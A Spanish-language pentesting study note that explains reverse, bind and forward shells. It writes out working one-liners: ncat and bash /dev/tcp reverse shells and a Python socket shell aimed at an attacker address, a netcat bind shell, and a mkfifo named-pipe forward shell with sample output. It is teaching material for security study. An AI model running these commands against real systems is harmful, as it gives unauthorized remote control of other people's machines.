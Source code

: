-----------
- Tags: #explotación #basico #teoria
---

# Reverse Shell

Es una técnica que permite a un atacante conectarse a una máquina remota desde una máquina de su propiedad. Es decir, se establece una conexión desde la máquina comprometida hacia la máquina del atacante. Esto se logra ejecutando un programa malicioso o una instrucción específica en la máquina remota que establece la conexión de vuelta hacia la máquina del atacante, premitiéndole tomar el control de la máquina remota. 

En el ejemplo de la imagen, supongamos que la maquina victima tiene expuesto un puerto :80, con un servicio de apache2, el cual, es vulnerable a **RCE** (Remote Code Execution), una vez pudiendo ejecutar comandos como la maquina victima, al atacante le interesaria enviarse una consola interactiva por un puerto que el decida.

![[reverseShell.png|1000]]

Algunos oneliners típicos para lograr esto son:

- #### Haciendo uso de net cat:
```shell
ncat -e /bin/bash {IP_atacante} {puerto}
```

- #### Haciendo uso de bash:
```shell
bash -i >& /dev/tcp/{IP_atacante}/{puerto} 0>&1 
```

- #### Haciendo uso de python: 
```python 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.38",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```
#### Más oneliners [aca](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

---
# Bind Shell 

Esta técnica es el opuesto de la **Reverse Shell**, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante por ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma. 

En este caso, en el ejemplo de la imagen, el atacante al explotar el **RCE**, inyecta un comando malicioso, en este ejemplo `nc -nlvp 443 -e /bin/bash` que lo que hace es escuchar en el puerto 443 por conexiones, y cuando reciba una, otorgara la consola interactiva.

![[BindShell.png|1000]]

-----------
# Forward Shell 

Esta técnica puede llegar aser utilizada cuando no se pueden establecer conexiones *Reverse* o *Bind* debido a posibles reglas de Firewall implementadas en la red u otro tipo de limitaciones. Esto podría lograrse haciendo uso de [[Named and Unnamed Pipes]] (*Named Pipes*), creando un archivo **FIFO** el cual recibirá constantemente los comandos que querramos ejecutar y enviará el output de los mimos a un archivo alojado en un determinado path. De esta manera, abusando del concepto que trae los pipes y la comunicación bidireccional. 

Creando un *Named Pipe* llamado *input*, el cual estaremos filtrando sus últimas líneas para reenviarlas a un archivo llamado *output*:

```shell
mkfifo /tmp/input; tail -f /tmp/input | /bin/bash 2>&1 > /tmp/output 
```

De esta manera, el ejecutar este comando veríamos que el mismo se queda en ejecución y en el directorio /tmp se crearía un archivo **FIFO** con el nombre *input*, la ídea es una vez llegado a este punto, envíar los comandos que deseemos ejecutar para que los mismos sean interpretados por un *unamed pipe* ( **|** ) y ejecutados por una */bin/bash* transformando el *stderr* a *stdout* yr alojadar el output de estos comandos en el archivo *output*. 

```shell
echo "whoami" > /tmp/input
echo "script /dev/null -c bash" > /tmp/input
echo "id" > /tmp/input

cat /tmp/output
# ──────┬───────────────────────────
#       │ File: /tmp/output
# ──────┼────────────────────────
#   1   │ kali    
#   2   │ Script started, output log file is '/dev/null'.
#   3   │ id
#   4   │ kali@kali: /tmp^G┌──(kali㉿kali)-[/tmp]
#   5   │ └─$ id
#   6   │ ^Muid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev),106(bluetooth),113(s
#       │ canner),135(wireshark),137(kaboxer)
#   7   │ 
#   8   │ ali@kali: /tmp^G┌──(kali㉿kali)-[/tmp]
#   9   │ └─$ 
# ──────┴────────────────────────────────────────────────────
```

 En el archivo */etc/output* podemos ver en la línea 1, el output del comando *whoami*, el la línea 2 el lanzamiento de la pseudo consola como indicamos en el segundo comando (*script /dev/null -c bash*), en la línea 4 podemos ver la pseudo consola con el comando que indicamos y recien en la línea 6 podemos ver la ejecución del comando *id* que envíamos.

De igual manera existen herramientas como [forward_shell.py](https://github.com/Dobliuw/MyHackingTools/blob/master/forward_shell.py) las cuales se encargan de explotar esta técnica para escenarios en donde dispongamos de una web vulnerable con [[RCE - (Remote Command Execution)]], permitiendonos de esta manera convertir una web shell en una "terminal interactiva" simulada haciendo uso de [[Named and Unnamed Pipes]]. 